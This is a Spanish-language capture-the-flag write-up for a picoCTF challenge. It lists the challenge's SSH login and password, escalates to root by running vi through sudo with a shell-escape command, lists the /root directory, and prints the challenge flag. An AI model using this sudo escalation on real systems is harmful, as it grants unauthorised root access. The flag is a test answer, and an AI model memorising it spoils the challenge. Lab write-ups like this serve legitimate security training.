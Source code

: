 ## **Descripción**
Can you read files in the root file?
Additional details will be available after launching your challenge instance

Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 60628 picoplayer@saturn.picoctf.net`Password: `NBD+zO8s4y`Can you login and read the root file?
## Hints
What permissions do you have?
## **Solución** 
Para este reto haremos lo siguiente:
Hacemos uso de vim para realizar una escalada de privilegios y convertirnos en sudo
Si se permite que el binario se ejecute como superusuario sudo, no se pierden los privilegios elevados y se puede usar para acceder al sistema de archivos, escalar o 	mantener el acceso privilegiado.	

```
picoplayer@challenge:/$ sudo vi -c  ':!bin/sh' dev/null

# ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
# cd root
# ls
# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Mar 16 02:09 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
# 

```

## **Notas adicionales**
Tambien podemos ejecutar los comandos ls y cat desde vim para obtener la bandera

## **Referencias**
- https://rm-rf.es/ejecutar-comandos-directamente-desde-vi-vim/